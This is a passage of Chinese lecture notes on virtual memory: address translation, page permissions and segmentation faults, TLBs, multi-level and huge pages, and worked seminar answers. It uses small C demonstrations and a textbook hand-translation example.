printf("pid %d: ", getpid()); /* 先调用一次 printf，使它所在的页被访问 */
uint64_t pa = v2p((void *)printf); /* v2p 与 19.3 节的相同 */
printf("printf 的 VA = %p, PA = %#lx\n", (void *)printf, pa);
return 0;
}在默认环境上运行，输出如下：
pid 1107: printf 的 VA = 0x7f38e3860100, PA = 0x1030af100
pid 1108: printf 的 VA = 0x7f044c660100, PA = 0x1030af100
pid 1109: printf 的 VA = 0x7fbe24860100, PA = 0x1030af100三个进程中 libc 被加载在不同的虚拟地址上（这是地址空间布局随机化，ASLR），但 printf 的代码在物理内存中只有一份。所有使用 libc 的进程都共享这些物理页，内存中不必有几百份 libc。
第三个好处是简化链接和加载（课件 p.30）。每个程序都有相似的虚拟地址空间：代码段总是从同一个地址开始（非位置无关的程序为 0x400000），然后是数据段、运行时堆，向下增长的用户栈在高地址处，共享库映射在中间的区域。链接器因此可以在链接时就确定代码和数据的虚拟地址，而不必关心程序运行时物理内存的情况（第 15 讲的重定位就是以此为前提的）。加载时，execve 只需要为 .text 和 .data 分配虚拟页、建立 PTE 并把它们标记为无效（指向可执行文件中的对应位置），并不真正复制任何内容；程序运行时第一次访问某一页才通过缺页把它从文件读进来，这又是按需调页。
在默认环境上，cat /proc/self/maps 列出 cat 进程地址空间中的各个区域（节选，省略了偏移、设备号等列）：
5608b6cca000-5608b6ccc000 r--p /usr/bin/cat
5608b6ccc000-5608b6cd1000 r-xp /usr/bin/cat
5608b6cd1000-5608b6cd3000 r--p /usr/bin/cat
5608b6cd4000-5608b6cd5000 rw-p /usr/bin/cat
5608e4b0a000-5608e4b4c000 rw-p [heap]
7f32d5028000-7f32d51b1000 r-xp /usr/lib/x86_64-linux-gnu/libc.so.6
7f32d5204000-7f32d5206000 rw-p /usr/lib/x86_64-linux-gnu/libc.so.6
7f32d5337000-7f32d5362000 r-xp /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fffec6ef000-7fffec714000 rw-p [stack]每一行是一段连续的虚拟页，起止地址都是 4096 的倍数，权限字段 r、w、x 就是下一节的权限位，p 表示私有。程序本身的代码在低处（Ubuntu 的 gcc 默认生成位置无关的可执行文件，所以不是课件的 0x400000，而是随机的 0x55…），堆紧随其后，共享库和栈在高处，与课件 p.30 的布局一致。
19.6 虚拟内存作为内存保护的工具（课件 p.32）#
页表还是检查访问权限的天然位置：每次访存都要经过 MMU 查 PTE，只要在 PTE 中加上权限位，MMU 就可以在每次访问时检查（课件 p.32）。课件的图中每个 PTE 有四个权限位：
- SUP：为 Yes 时只有在内核模式（超级用户模式）下才能访问，用户程序不能访问这一页；
- READ：能否读；
- WRITE：能否写；
- EXEC：能否把这一页的内容当作指令执行。
例如在 图 7 中，进程 i 的 VP 0 只读可执行（代码），VP 1 可读可写（数据），VP 2 只有内核才能访问。如果一条指令违反了这些权限，MMU 触发一个保护故障，内核把控制交给异常处理程序；Linux 向进程发送 SIGSEGV，报告为“段错误”（segmentation fault）。进程 j 的 VP 1 也映射到 PP 6，但权限不同：同一个物理页在不同进程中可以有不同的访问权限。
图 7 PTE 中的权限位（课件 p.32）：同一个物理页 PP 6 在两个进程中的权限不同
在默认环境上，用一个 SIGSEGV 处理程序打印出错的地址和原因（si_code），分别尝试四种非法访问。SA_SIGINFO 让处理程序收到一个 siginfo_t，其中 si_addr 是出错的地址，si_code 区分两种原因：
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
static void h(int sig, siginfo_t *si, void *u)
{
char buf[128];
int n = snprintf(buf, sizeof buf, "SIGSEGV: addr=%p code=%s\n", si->si_addr,
si->si_code == SEGV_MAPERR ? "SEGV_MAPERR（地址没有映射）" :
si->si_code == SEGV_ACCERR ? "SEGV_ACCERR（违反访问权限）" : "?");
write(1, buf, n); /* 演示用；严格说 snprintf 不是异步信号安全的 */
_exit(0);
}
int main(int argc, char *argv[])
{
struct sigaction sa = {0};
sa.sa_sigaction = h; sa.sa_flags = SA_SIGINFO; /* 处理程序能拿到 siginfo */
sigaction(SIGSEGV, &sa, NULL);
char *s = "hello"; /* 字符串常量在只读段 */
switch (argv[1][0]) {
case 'r': *(volatile char *)s = 'H'; break; /* 写只读页 */
case 'n': *(volatile int *)0 = 1; break; /* 写地址 0 */
case 'k': *(volatile long *)0xffffffff81000000UL; break; /* 读内核地址 */
case 'c': *(volatile char *)main = 0; break; /* 写代码页 */
}
return 0;
}以 r、n、k、c 为参数各运行一次：
写字符串常量（只读页） SIGSEGV: addr=0x55ff86edb06e code=SEGV_ACCERR（违反访问权限）
写地址 0 SIGSEGV: addr=(nil) code=SEGV_MAPERR（地址没有映射）
读内核地址 SIGSEGV: addr=0xffffffff81000000 code=SEGV_MAPERR（地址没有映射）
写 main 函数的代码 SIGSEGV: addr=0x562d94916290 code=SEGV_ACCERR（违反访问权限）字符串常量和代码所在的页是存在的，但没有写权限，所以报告“违反访问权限”；地址 0 所在的页根本没有分配（PTE 无效），报告“地址没有映射”。读内核地址同样失败，Linux 对用户程序访问内核地址的故障统一报告为没有映射。在硬件层面，这些页的 PTE 要么设置了 SUP 位，要么（启用了防御 Meltdown 攻击的页表隔离时）根本不在用户态使用的页表中，用户程序都无法访问。这几种访问在 /proc/self/maps 中都能找到原因：代码段是 r-xp，字符串常量所在的段是 r--p，都没有 w。
19.7 地址翻译（课件 p.34–39）#
符号#
形式上，地址翻译是一个映射 MAP：V → P ∪ {∅}（课件 p.34）。对虚拟地址 a，如果它的数据在物理地址 a′ 处，MAP(a) = a′；如果数据不在物理内存中（无效，或者在磁盘上），MAP(a) = ∅。课件 p.35 汇总了本讲用到的符号：
表 3 地址翻译的符号（课件 p.35、p.41）
| 符号 | 含义 | 关系 |
|---|---|---|
| N = 2n | 虚拟地址空间中的地址数 | 虚拟地址有 n 位 |
| M = 2m | 物理地址空间中的地址数 | 物理地址有 m 位 |
| P = 2p | 页的大小（字节） | 页内偏移有 p 位 |
| VPO | 虚拟页偏移（virtual page offset） | 虚拟地址的低 p 位 |
| VPN | 虚拟页号（virtual page number） | 虚拟地址的高 n − p 位 |
| PPO | 物理页偏移，与 VPO 相同 | 物理地址的低 p 位 |
| PPN | 物理页号 | 物理地址的高 m − p 位 |
| TLBI | TLB 索引 | VPN 的低 t 位（TLB 有 T = 2t 组） |
| TLBT | TLB 标记 | VPN 的其余高位 |
用页表翻译#
翻译的过程如 图 8 所示（课件 p.36）。CPU 中有一个控制寄存器页表基址寄存器（page table base register，PTBR），指向当前进程的页表。MMU 把虚拟地址分成两部分：VPN 和 VPO。它用 VPN 作为下标，在页表中找到对应的 PTE（PTE 的地址 PTEA = PTBR + VPN × PTE 大小）。如果有效位为 0，页不在内存中，触发缺页；如果有效位为 1，取出 PTE 中的 PPN，与 VPO 拼在一起就是物理地址：PPN 作为高位，PPO = VPO 作为低位。页内偏移不需要翻译，因为虚拟页和物理页大小相同。
图 8 用页表做地址翻译（课件 p.36）：VPN 选出 PTE，PPN 与 VPO 拼成物理地址
在默认环境上，全局变量 g 的虚拟地址 0x55b4f1485010 按 4 KB 的页（p = 12）切分，VPN = 0x55b4f1485，VPO = 0x010；查 pagemap 得到它的物理地址 0x13ebfc010，PPN = 0x13ebfc，PPO = 0x010，与 VPO 相同。
页命中与缺页时硬件做什么#
页命中时完全由硬件处理，分五步（课件 p.37，图 9（a））：(1) 处理器生成虚拟地址，送给 MMU；(2) MMU 生成 PTE 的地址 PTEA，向高速缓存或主存请求这个 PTE；(3) 高速缓存或主存把 PTE 返回给 MMU；(4) MMU 构造出物理地址，送给高速缓存或主存；(5) 高速缓存或主存把数据返回给处理器。
缺页时需要硬件和操作系统内核配合（课件 p.38，图 9（b））。前三步相同；(4) PTE 的有效位为 0，MMU 触发缺页异常，控制转到内核中的缺页处理程序；(5) 处理程序选出牺牲页，如果它被修改过，就把它写回磁盘；(6) 处理程序调入新的页，并更新内存中的 PTE；(7) 处理程序返回到原来的进程，重新执行引起缺页的指令，这一次按页命中的五步完成。
图 9 地址翻译的步骤（课件 p.37–38）：（a）页命中；（b）缺页
与高速缓存结合#
既有虚拟内存又有高速缓存的系统中，高速缓存用虚拟地址还是物理地址？大多数系统用物理地址（课件 p.39）：多个进程可以同时在高速缓存中有块，共享同一个物理页的进程也自然共享缓存中的块，而且高速缓存不必处理权限问题，因为访问权限在地址翻译时已经检查过了。
于是地址翻译发生在查高速缓存之前。PTE 本身也只是内存中的数据，同样可以被缓存在 L1 中。课件 p.39 的图（图 10）中有四条路径。MMU 拿到 PTEA 后先查 L1：PTEA 命中时直接从 L1 得到 PTE；PTEA 不命中时从内存取 PTE，同时把它放入 L1。得到物理地址 PA 后再查 L1：PA 命中时从 L1 返回数据；PA 不命中时从内存取回数据块，放入 L1 后返回给 CPU。最好的情况下，一次访存要查两次 L1（一次查 PTE，一次查数据）；最坏的情况下要访问两次内存。
图 10 虚拟内存与 L1 高速缓存（课件 p.39）：取 PTE 和取数据各查一次 L1
19.8 用 TLB 加速地址翻译（课件 p.40–44）#
每次访存都要先取一次 PTE，即使 PTE 在 L1 中，也要多花几个周期；PTE 还可能被其他数据挤出 L1（课件 p.40）。解决办法是在 MMU 中再放一个专门缓存 PTE 的小缓存，叫翻译后备缓冲器（translation lookaside buffer，TLB）。它是一个小的、组相联的硬件缓存，把虚拟页号映射到物理页号，每一行存放一个完整的 PTE。
研讨题 2（5）问 TLB 为什么叫这个名字。lookaside buffer 指“在旁边先看一眼”的缓冲区：MMU 在去内存查页表之前，先在旁边的这个小缓冲区里查一下，查到了就不必去查页表。它缓存的是“翻译”（translation）的结果，即 VPN 到 PPN 的对应关系。TLB 与 L1 是两个独立的缓存：TLB 用虚拟页号查找，缓存的是 PTE；L1 用物理地址查找，缓存的是数据和指令（也可能缓存 PTE）。访存时先查 TLB 得到物理地址，再用物理地址查 L1。
TLB 的组织#
TLB 的查找方法与第 13 讲的组相联高速缓存完全相同，只是“地址”换成了 VPN（图 11，课件 p.42）。TLB 有 T = 2t 组时，VPN 的低 t 位是 TLB 索引（TLBI），选择一组；VPN 的其余高位是 TLB 标记（TLBT），与组内各行的标记比较。标记相同并且有效位为 1，就是 TLB 命中，该行的 PTE 中有 PPN。注意 TLBI 和 TLBT 都只取自 VPN，VPO 不参与查 TLB，因为同一页内的所有地址共用一个 PTE。
图 11 用 VPN 访问 TLB（课件 p.42）：低 t 位选组，高位与标记比较
命中与不命中#
TLB 命中时（课件 p.43，图 12（a）），MMU 从 TLB 中取出 PTE，翻译完全在 MMU 内部完成：(1) CPU 送出虚拟地址；(2)(3) MMU 用 VPN 查 TLB，得到 PTE；(4) 构造物理地址送给高速缓存或主存；(5) 数据返回给 CPU。与 p.37 相比，省去了一次访问高速缓存或主存取 PTE。TLB 不命中时（课件 p.44，图 12（b）），MMU 必须像 p.37 那样，用 PTEA 从高速缓存或主存取出 PTE，再把它放入 TLB，多了一次访存；如果 PTE 无效，还会接着发生缺页。
图 12 TLB 命中与不命中（课件 p.43–44）
TLB 不命中很少见，原因还是局部性（课件 p.44 的问题）。一个 TLB 项覆盖整整一页（4 KB），程序对一页中的地址往往连续访问很多次，只有第一次需要查页表；常见的 TLB 有几十到上千项，能覆盖几百 KB 到几 MB 的工作集。
在默认环境上可以测出 TLB 的覆盖范围。程序把 N 个页链成一个随机顺序的环，每页中只放一个指向下一页的指针，然后沿着环反复访问，测每次访问的平均时间。作为对照，另一组把同样多的指针紧挨着放在连续的缓存行中，数据量相同，但只占很少的页（图 13）。核心代码如下（节选）：
/* mem 是按页对齐的 256 MB 区域，perm[0..n-1] 是 0..n-1 的一个随机排列 */
for (size_t i = 0; i < n; i++) { /* 第 a 页里放第 b 页中那个指针的地址 */
size_t a = perm[i], b = perm[(i + 1) % n];
*(char **)(mem + a * 4096 + (a % 64) * 64) = mem + b * 4096 + (b % 64) * 64;
} /* 页内偏移错开，避免落在同一个缓存组 */
char **p = (char **)(mem + perm[0] * 4096 + (perm[0] % 64) * 64);
for (size_t k = 0; k < n * 4; k++) /* 预热 */
p = (char **)*p;
double t0 = now();
for (size_t k = 0; k < 20000000; k++) /* 沿着环走 2000 万步 */
p = (char **)*p;
double t1 = now(); /* 每次 (t1 - t0) / 2e7 秒 */对照组只把建环那一行换成：
*(char **)(mem + a * 64) = mem + b * 64; /* 对照组：n 个指针放在连续的缓存行中 */图 13 每次访问的平均时间（默认环境实测）：指针分散在 N 个页中（每页一个缓存行）与同样多的指针放在连续的缓存行中
两条曲线访问的数据量完全相同，差别只在于涉及多少个页。分散的版本在 64 页以内与连续的版本一样快（约 1.5 ns），128 页时跳到约 3.7 ns，而连续的版本直到数据量超过 L1 缓存（48 KB）才变慢：这一跳来自 L1 数据 TLB 装不下了：它只有几十项（实测的边界在 64 页和 128 页之间），之后的访问要到更大的二级 TLB 中去查。二级 TLB 有上千项；分散到 4096 页以上（16 MB 以上的范围）时它也装不下，几乎每次访问都要查页表，时间升到 50 ns 以上，而同样数据量的连续版本仍只要 5–6 ns。
19.9 多级页表（课件 p.45–47）#
页表本身有多大？课件 p.45 的例子：4 KB（212）的页，48 位虚拟地址，每个 PTE 8 字节。虚拟页一共有 248 / 212 = 236 个，一级页表需要 236 × 23 = 239 字节，即 512 GB，而且每个进程一张。这显然不可能。可是绝大部分虚拟地址空间根本没有分配，它们的 PTE 都是 null，白白占着空间。
常用的解决办法是多级页表，把页表也分成页、分层组织（课件 p.45–46）。以二级页表为例：一级页表的每个 PTE 负责一大块虚拟地址空间，指向一张二级页表；二级页表的每个 PTE 才指向一个虚拟页。如果某一大块虚拟地址空间完全没有分配，一级页表中对应的 PTE 就是 null，相应的二级页表根本不存在。一级页表总是驻留在内存中，二级页表则可以像普通数据一样被换入换出，常用的才留在内存中。
课件 p.46 的例子是 32 位地址、4 KB 的页、4 字节的 PTE（图 14）。一张页表正好占一页，有 1024 个 PTE；一个二级页表覆盖 1024 个页，即 4 MB。虚拟地址空间中只有开头的 2K 个页（代码和数据）和末尾的 1 个页（栈）被分配了。一级页表的 PTE 0 和 PTE 1 分别指向覆盖 VP 0–1023 和 VP 1024–2047 的两张二级页表；PTE 2–7 为 null，对应 6K 个未分配的页；PTE 8 指向一张只有最后一项有效的二级页表，覆盖 VP 8192–9215，其中只有 VP 9215 是栈，其余 1023 项为 null；PTE 9–1023 都为 null。一共只需要 1 张一级页表和 3 张二级页表，共 16 KB，而一级页表的方案需要 220 × 4 字节 = 4 MB。
图 14 二级页表（课件 p.46）：只为实际用到的 4 MB 区域建立二级页表
把二级推广到 k 级（课件 p.47，图 15）：虚拟地址的 VPN 被分成 k 段 VPN 1、VPN 2、……、VPN k。PTBR 指向一级页表；VPN 1 在一级页表中选出一个 PTE，它指向一张二级页表；VPN 2 在这张二级页表中选出一个 PTE，指向一张三级页表……直到第 k 级页表的 PTE 中给出物理页号 PPN，与 VPO 拼成物理地址。翻译一个地址要依次访问 k 个 PTE，看起来很慢，但 TLB 缓存的是最终的翻译结果，命中时一次都不用访问；高层的页表很小，也几乎总在高速缓存中。
图 15 k 级页表的地址翻译（课件 p.47）
x86-64 的 Core i7 用的是四级页表（教材 9.7 节、下一讲）：48 位虚拟地址分成 9 + 9 + 9 + 9 位的四段 VPN 和 12 位的 VPO，每张页表有 512 个 8 字节的 PTE，正好一页。较新的处理器支持五级页表、57 位虚拟地址：默认环境的 CPU 报告“52 bits physical, 57 bits virtual”，不过 Linux 默认仍让用户程序只使用 47 位的地址空间，所以栈的地址在 0x7fff… 附近。
常见问题：页不是 4 KB 吗？为什么 Linux 的页可以大到 2 MB 甚至 1 GB？
x86-64 Linux 的普通页确实是 4 KB，默认环境上 getconf PAGESIZE 输出 4096。但硬件还支持两种大页（huge page）：2 MB 和 1 GB，它们正好对应四级页表中的两个位置。按 19.9 节，48 位虚拟地址分成 9 + 9 + 9 + 9 + 12：如果第三级页表的 PTE 中设置了“页大小”位，翻译到这一级就结束，剩下的 9 + 12 = 21 位全部作为页内偏移，页大小就是 221 字节 = 2 MB；如果在第二级就结束，偏移有 9 + 9 + 12 = 30 位，页大小是 230 字节 = 1 GB。所以大页不是另一套机制，只是少走一两级页表。
为什么要这么大的页？主要是为了 TLB。一个 TLB 项只覆盖一页，19.8 节的实验中 L1 TLB 只有几十项，覆盖不到 1 MB；同样的项数，每项覆盖 2 MB 时就能覆盖上百 MB。数据库、虚拟机、科学计算这类要随机访问几十 GB 内存的程序，用 4 KB 的页几乎每次访问都 TLB 不命中，换成大页后翻译开销大大减少，页表本身也少了一两级、占的内存更少。代价是：一页只要用到一个字节，就要占满 2 MB 的物理内存（页内碎片）；分配时需要一块连续的 2 MB 物理内存；第一次访问时要清零的内存也多了 512 倍。所以大页只给明确需要它的程序用，普通程序仍用 4 KB 的页。
默认环境上，/proc/meminfo 中 Hugepagesize 为 2048 kB，/sys/kernel/mm/hugepages/ 下有 hugepages-2048kB 和 hugepages-1048576kB 两个目录，CPU 标志中有表示支持 1 GB 页的 pdpe1gb。Linux 有两种用法：一是预先保留一批大页，程序用 mmap 的 MAP_HUGETLB 标志或 hugetlbfs 申请；二是透明大页（transparent huge pages，THP），内核自动把对齐的 2 MB 匿名内存换成大页。默认环境的 THP 设为 madvise，只对用 madvise 标记过的区域使用。下面的代码对一块 2 MB 对齐的 64 MB 内存标记并写一遍，AnonHugePages 为 65536 kB，正好 32 个 2 MB 的页；改为 MADV_NOHUGEPAGE 时为 0。默认环境是虚拟机，客户机的页表之下还有宿主机的一层翻译，在它上面用 19.8 节的方法比较两种页，几次测量的差别时大时小，得不出稳定的结论。
页的大小也因系统而异：Apple 芯片上的 macOS 使用 16 KB 的页（Apple 的开发文档），ARM64 处理器还支持 64 KB 的页。
const size_t N = 16384, SZ = N * 4096; /* 64 MB */
char *mem = mmap(NULL, SZ + (2 << 20), PROT_READ | PROT_WRITE,
MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
mem = (char *)(((unsigned long)mem + (2 << 20) - 1) /* 向上取整到 2 MB 的倍数 */
& ~((2UL << 20) - 1));
madvise(mem, SZ, huge ? MADV_HUGEPAGE : MADV_NOHUGEPAGE); /* 请求或拒绝透明大页 */
memset(mem, 0, SZ); /* 写一遍，触发分配 */
/* 之后读 /proc/self/smaps_rollup 中的 AnonHugePages 一行 */19.10 专题：手算地址翻译#
期末考试和作业 9.11–9.13 常考的一类题是：给出一个小系统的 TLB、页表和高速缓存的内容，对一个虚拟地址，写出翻译的全过程和取到的字节。题目都基于教材 9.6.4 节的小内存系统，这一节把它整理成固定的步骤。
小内存系统的参数#
教材的小系统有以下参数：虚拟地址 14 位（n = 14），物理地址 12 位（m = 12），页大小 64 字节（P = 64，p = 6）；TLB 有 16 项，4 路组相联，所以有 4 组；L1 高速缓存用物理地址寻址，直接映射，16 组，每块 4 字节。由这些参数可以确定各个字段的位置（图 16）：
- 虚拟地址：VPO 是低 6 位（第 0–5 位），VPN 是高 8 位（第 6–13 位）；TLB 有 4 组，TLBI 是 VPN 的低 2 位（第 6–7 位），TLBT 是 VPN 的高 6 位（第 8–13 位）。
- 物理地址：PPO 是低 6 位，PPN 是高 6 位（第 6–11 位）；高速缓存块 4 字节，CO（块偏移）是低 2 位；16 组，CI（组索引）是接下来的 4 位（第 2–5 位）；CT（标记）是剩下的高 6 位（第 6–11 位）。
图 16 小内存系统的地址划分（教材图 9-19、9-20）：上为 14 位虚拟地址，下为 12 位物理地址
注意这个系统中 CT 恰好等于 PPN，CO 加 CI 恰好等于 PPO：页大小（64 字节）正好等于“块大小 × 组数”（4 × 16），所以页内偏移刚好确定了组和块内偏移。这是一种常见的巧合，不是必然。
TLB、页表（前 16 项）和高速缓存的内容见教材图 9-20，表 4、表 5、表 6 照录如下，数值都是十六进制。
表 4 小系统的 TLB（教材图 9-20(a)；每格为“标记 / PPN / 有效位”）
| 组 | 第 0 路 | 第 1 路 | 第 2 路 | 第 3 路 |
|---|---|---|---|---|
| 0 | 03 / – / 0 | 09 / 0D / 1 | 00 / – / 0 | 07 / 02 / 1 |
| 1 | 03 / 2D / 1 | 02 / – / 0 | 04 / – / 0 | 0A / – / 0 |
| 2 | 02 / – / 0 | 08 / – / 0 | 06 / – / 0 | 03 / – / 0 |
| 3 | 07 / – / 0 | 03 / 0D / 1 | 0A / 34 / 1 | 02 / – / 0 |
表 5 小系统的页表，前 16 个 PTE（教材图 9-20(b)）
| VPN | PPN | 有效 | VPN | PPN | 有效 |
|---|---|---|---|---|---|
| 00 | 28 | 1 | 08 | 13 | 1 |
| 01 | – | 0 | 09 | 17 | 1 |
| 02 | 33 | 1 | 0A | 09 | 1 |
| 03 | 02 | 1 | 0B | – | 0 |
| 04 | – | 0 | 0C | – | 0 |
| 05 | 16 | 1 | 0D | 2D | 1 |
| 06 | – | 0 | 0E | 11 | 1 |
| 07 | – | 0 | 0F | 0D | 1 |
表 6 小系统的高速缓存（教材图 9-20(c)）
| 组 | 标记 | 有效 | 块 0 | 块 1 | 块 2 | 块 3 |
|---|---|---|---|---|---|---|
| 0 | 19 | 1 | 99 | 11 | 23 | 11 |
| 1 | 15 | 0 | – | – | – | – |
| 2 | 1B | 1 | 00 | 02 | 04 | 08 |
| 3 | 36 | 0 | – | – | – | – |
| 4 | 32 | 1 | 43 | 6D | 8F | 09 |
| 5 | 0D | 1 | 36 | 72 | F0 | 1D |
| 6 | 31 | 0 | – | – | – | – |
| 7 | 16 | 1 | 11 | C2 | DF | 03 |
| 8 | 24 | 1 | 3A | 00 | 51 | 89 |
| 9 | 2D | 0 | – | – | – | – |
| A | 2D | 1 | 93 | 15 | DA | 3B |
| B | 0B | 0 | – | – | – | – |
| C | 12 | 0 | – | – | – | – |
| D | 16 | 1 | 04 | 96 | 34 | 15 |
| E | 13 | 1 | 83 | 77 | 1B | D3 |
| F | 14 | 0 | – | – | – | – |
固定的步骤#
以教材练习题 9.4 的虚拟地址 0x03d7 为例。
第一步，把虚拟地址写成 14 位二进制，划出字段。0x03d7 = 00 0011 1101 0111，低 6 位 010111 是 VPO = 0x17，高 8 位 00001111 是 VPN = 0x0F；VPN 的低 2 位 11 是 TLBI = 3，高 6 位 000011 是 TLBT = 0x03。
第二步，查 TLB。第 3 组中第 1 路的标记是 03、有效，TLB 命中，PPN = 0x0D。（如果 TLB 不命中，就用 VPN 查页表：有效则得到 PPN，无效则是缺页，到此为止。）
第三步，拼出物理地址。PPN = 0x0D = 001101 作为高 6 位，PPO = VPO = 010111 作为低 6 位，物理地址是 0011 0101 0111 = 0x357。
第四步，查高速缓存。物理地址的低 2 位 11 是 CO = 3，接下来的 4 位 0101 是 CI = 5，高 6 位 001101 是 CT = 0x0D。第 5 组的标记是 0D、有效，命中，取出块中偏移 3 处的字节 0x1D。
整个结果是：TLB 命中，没有缺页，物理地址 0x357，高速缓存命中，取到 0x1D，与教材给出的答案相同。讲义另写了一个模拟这套系统的程序（sources/ics19work/sim/v6/vm.py），作业 9.11–9.13 的结果都用它核对过。
⚠ 手算地址翻译最容易错的地方
第一，TLBI 和 TLBT 是从 VPN 中切出来的，不是从整个虚拟地址切的：TLBI 是 VPN 的低位，也就是虚拟地址的第 p 位起，而不是第 0 位起。第二，CO、CI、CT 是从物理地址中切出来的，要先完成翻译才能查高速缓存。第三，TLB 不命中不等于缺页：TLB 不命中时还要查页表，页表中有效就不缺页。第四，缺页时没有物理地址，后面的高速缓存部分都不用做（教材要求 PPN 填“—”，C、D 两问留空）。第五，二进制要按位写全：14 位地址的最高几位是 0 也要写出来，否则字段的边界会对错。
19.11 小结（课件 p.48）#
课件最后从两个视角总结了虚拟内存。从程序员的视角看，每个进程都有自己私有的线性地址空间，不会被其他进程破坏。从系统的视角看，虚拟内存把虚拟页缓存在 DRAM 中，高效地使用了内存，而这只有在程序具有局部性时才有效；它简化了内存管理和编程；它在每次访存时都要经过的地方提供了检查权限的“插入点”，简化了保护。实现上，虚拟内存是硬件和软件的结合：MMU、TLB 和异常机制是硬件的部分，缺页处理程序和 TLB 的管理由软件完成。
下一讲（第 20 讲）继续虚拟内存：Core i7 与 Linux 的实际实现、内存映射，以及本讲多次提到的写时复制。
第二部分 小班研讨题解答（第 19 讲）#
两套研讨题的页码与 2026 版课件一致。第一部分已经讲过的内容，这里给出要点并注明小节。研讨题 1（2）（3）是调研题，讲义给出估算的方法和截至 2025 年前后的公开资料，产品和型号变化很快，引用前应当再查最新的资料。
研讨题 1：地址空间与虚拟内存作为缓存#
1（1）基于课件第 2～8 页等，分析虚拟存储出现的原因，或者说是如果没有虚拟存储，会出现哪些问题。
见 19.1 节。没有虚拟存储时，多个进程直接共用物理内存，会出现课件 p.6 的三个问题。一是放不下：每个程序都希望有完整的 32 位或 64 位地址空间，物理内存远远不够，所有进程合起来更放不下，程序员只能自己把程序拆成几段、手工换入换出。二是不知道用哪一块：程序在链接时就要确定代码和数据的地址，而哪些物理内存空闲取决于运行时还有哪些程序，fork 出的子进程更需要另找一块地方并修改其中所有的地址。三是没有隔离：任何进程都能读写任何地址，一个程序的指针错误会改坏别的程序甚至内核，而且很难查出是谁改的。虚拟存储用“每次访存都经过一次映射”这一层间接同时解决了这三个问题（课件 p.7–8）。
1（2）如果 CPU 对外有 64 位地址线，那理论上可以寻址多大的物理内存空间？如果按照当前主流的 32GB 的内存条算，需要插多少根内存条才能满足最大寻址空间？这个数量的内存条是否现实可行，从计算机机箱空间和内存厂商产量等不同维度来分析。
64 位地址线可以寻址 264 个字节，即 16 EiB（约 1.8 × 1019 字节）。一根 32 GB 的内存条是 235 字节，需要 264 / 235 = 229 = 536 870 912 根，约 5.4 亿根。
从机箱空间看，一台台式机的主板有 2–4 个内存插槽，双路服务器的主板也只有 16–32 个。一根 DDR5 内存条约 133 mm × 31 mm、厚度连同散热片按 4 mm 计，体积约 16 cm3，5.4 亿根的体积约 9000 m3，相当于三四个标准游泳池；即使不算插槽和走线，也远远不是一台计算机能容纳的。功耗也不可能：每根服务器内存条工作时按 5 W 计，总功率约 2.7 GW，相当于两座大型核电机组的发电量。
从厂商的产量看，可以粗略估算全世界一年生产多少 DRAM。按一年约 12 亿部智能手机、每部 8 GB，约 2.6 亿台个人计算机、每台 16 GB，约 1300 万台服务器、每台 512 GB 计算，三者合计约 2 × 1019 字节，与 264 字节在同一个数量级。也就是说，把一个 64 位地址空间全部装满，大约要用掉全世界一年的 DRAM 产量。这还是在理想化的假设下：实际的处理器根本没有 64 根物理地址线，x86-64 的架构上限是 52 位物理地址（4 PiB），默认环境的 CPU 报告的正是“52 bits physical”。所以 64 位地址空间只是虚拟地址空间，它远大于任何可能的物理内存，这正是虚拟内存把“地址空间”与“物理内存”分开的意义。
1（3）参考课件第 9～10 页，调研当前 ARM 体系结构的主要产品线，说明哪些是有虚拟存储的、哪些没有，它们分别主要用在什么场景。当前高端新能源汽车中，是否用到了 ARM 芯片，主要是哪个系列，有没有虚拟存储。
Arm 的处理器核分成几条产品线，区别之一正是有没有支持虚拟内存的 MMU（表 7）。
表 7 Arm 的主要产品线与虚拟内存（截至 2025 年前后）
| 产品线 | 内存管理 | 主要用途 |
|---|---|---|
| Cortex-A | 有 MMU，支持虚拟内存 | 手机、平板、电视、车载座舱和自动驾驶的应用处理器；运行 Linux、Android 等完整的操作系统 |
| Neoverse | 有 MMU | 服务器、数据中心、网络设备；也用于新一代车载中央计算平台 |
| Cortex-R | 一般只有 MPU（内存保护单元），没有地址翻译；Cortex-R82 起可选 MMU | 实时控制：硬盘与 SSD 控制器、基带、汽车的动力与底盘控制、区域控制器 |
| Cortex-M | 没有 MMU，可选 MPU | 微控制器：传感器、家电、物联网设备、汽车中的车身控制等小型 ECU |
没有 MMU 的处理器采用课件 p.9 的物理寻址，程序直接使用物理地址，通常运行实时操作系统或者不运行操作系统。MPU 只能把物理内存划分成若干区域并设置访问权限，提供一定程度的保护，但不做地址翻译，也就不能给每个任务一个独立的地址空间。
高端新能源汽车中大量使用 Arm 芯片，而且不同部位用的是不同的产品线。智能座舱和自动驾驶的计算平台用的是 Cortex-A 级别的核，有 MMU 和虚拟内存，运行 Linux、Android 或 QNX，并常常用虚拟化同时运行几个系统：例如高通的 Snapdragon 座舱平台（如 SA8295P）使用基于 Arm 架构的 Kryo CPU；英伟达的 DRIVE Orin 使用 12 个 Cortex-A78AE 核，下一代 DRIVE Thor 使用 Neoverse V3AE 核。国内多个品牌的高端车型都采用过这两类芯片。负责实时控制的芯片则多用 Cortex-R 或 Cortex-M：例如恩智浦的 S32Z、S32E 系列基于 Cortex-R52（只有 MPU），S32K 系列基于 Cortex-M；也有不少汽车微控制器不是 Arm 架构，如英飞凌 AURIX 的 TriCore、瑞萨的 RH850。所以“汽车有没有虚拟存储”要分开回答：负责座舱和智能驾驶的大芯片有，负责实时控制的小芯片大多没有。
1（4）基于课件第 11 页，解释线性地址、虚拟地址和物理地址三个概念，并结合汇编程序或者内存实物，举例说明它们的区别和联系。
见 19.1 节。线性地址空间是一个连续的非负整数地址集合，“线性”说的是地址的形式；虚拟地址是 CPU 生成、程序中使用的地址，属于 N = 2n 个地址的虚拟地址空间；物理地址是内存芯片上真实存储单元的地址，属于 M 个地址的物理地址空间。本课程中虚拟地址空间和物理地址空间都是线性的。
汇编程序中出现的所有地址都是虚拟地址：movl $0xd, 0x8049d10 中的 0x8049d10，%rsp 中的栈地址，call 的目标，都要先经过 MMU 翻译。在默认环境上，全局变量 g 的虚拟地址是 0x55b4f1485010，它对应的物理地址是 0x13ebfc010（19.7 节）；fork 出的子进程中 &g 的虚拟地址完全相同，子进程写 g 之后，它对应的物理地址变成了 0x122b30010。内存条上的某个字节只有一个物理地址，却可以有多个虚拟地址：三个进程中 printf 的虚拟地址各不相同，物理地址都是 0x1030af100（19.5 节）。
1（5）基于课件第 14～15 页的示例和说明，解释虚拟页和物理页的对应关系。
